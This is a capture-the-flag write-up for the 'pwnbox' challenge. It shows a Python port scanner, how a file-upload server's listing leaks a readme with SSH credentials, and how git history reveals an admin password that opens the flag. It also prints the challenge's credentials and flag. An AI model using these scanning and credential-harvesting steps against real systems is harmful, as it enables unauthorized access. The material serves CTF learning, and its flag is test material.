


# pwnbox
> Pwn the server to get the flag, the server-ports hide between 7000 and 8000
> 
> challenges.ctf.sikt.no

# Solution 
Scan ports between 7000 and 8000 using a Python script.

```python
# Function to scan ports
def scan_ports(target_ip, port_range):
    open_ports = []

    for port in port_range:
        #print(f"Scanning port {port}...")
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(0.25)
        result = sock.connect_ex((target_ip, port))
        if result == 0:
            print(f"Port {port} is open")
            open_ports.append(port)
        sock.close()

    print(f"Open ports: {open_ports}")

# Main function to parse arguments and call scan_ports
def main():
    parser = argparse.ArgumentParser(description="Port Scanner")
    parser.add_argument("target_ip", help="IP address of the target system")
    parser.add_argument("start_port", type=int, help="Start of the port range")
    parser.add_argument("end_port", type=int, help="End of the port range")

    args = parser.parse_args()

    target_ip = args.target_ip
    port_range = range(args.start_port, args.end_port + 1)

    scan_ports(target_ip, port_range)

if __name__ == "__main__":
    main()
```

```bash
python3 portscan.py challenges.ctf.sikt.no 7000 8000
Port 7203 is open
Port 7204 is open
```

http://challenges.ctf.sikt.no:7203/ is a web server with a file upload feature. Upload a random file...



The server outputs the path to the file you uploaded. Copy this url and change the filename to something random like 'derp.file'.



The out from the server is now a file listing. The list includes the file 'readme.txt'. Open this file. (http://challenges.ctf.sikt.no:7203/uploads/readme.txt)


The content of readme.txt is containing login information to the ssh server on port 7204.

```
Welcome to the webserver git repository!

Remember to delete this file before starting the server! Dont leak the server password!
Username: dustin   Password: dustin55534llol
```

Use the login information to login to the ssh server on port 7204.

```bash
$ ssh challenges.ctf.sikt.no -p 7204 -l dustin
```

Go into the repo directory and check the git log:
```bash
~/repo$ git log
commit ddf1175265feaf9063ab94180487cd961308a183 (HEAD -> master)
Author: dustin elop <dustin@repo.xyz>
Date:   Fri Oct 18 08:06:00 2024 +0000

    Update readme with dustin credentials

commit 30b702bcd21ac1fc4c1fc13f14e507271efea230
Author: dustin elop <dustin@repo.xyz>
Date:   Fri Oct 18 08:05:59 2024 +0000

    Update readme with admin credentials

commit 1394b87fa297acac7f8d48922d9642f7ededddd5
Author: dustin elop <dustin@repo.xyz>
Date:   Fri Oct 18 08:05:59 2024 +0000

    Initial commit
```

Lets check what the data that was changed in the readme file was.

```bash
$ git show ddf1175265feaf9063ab94180487cd961308a183

commit ddf1175265feaf9063ab94180487cd961308a183 (HEAD -> master)
Author: dustin elop <dustin@repo.xyz>
Date:   Fri Oct 18 08:06:00 2024 +0000

    Update readme with dustin credentials

diff --git a/readme.txt b/readme.txt
index 1f9192d..18ba3aa 100644
--- a/readme.txt
+++ b/readme.txt
@@ -1,3 +1,3 @@
 Welcome to the repository!
 Remember to delete this file before starting the server! Dont leak the server password!
-Username: admin\tPassword: admin1992¤21#!PEccD11Erheh
+Username: dustin\tPassword: dustin55534llol
```

The commit shows the credentials for the user 'admin'. Use these credentials (user: `admin` pass: `admin1992¤21#!PEccD11Erheh`) to login to the ssh server on port 7203. The flag is located in flag.txt.

```bash
$ ssh challenges.ctf.sikt.no -p 7204 -l admin

admin@2687ba6dd4c2:~$ ls
flag.txt
admin@2687ba6dd4c2:~$ cat flag.txt
SiktCTF{Do_You_Know_How_To_Pwn?}

```

> Flag: SiktCTF{Do_You_Know_How_To_Pwn?}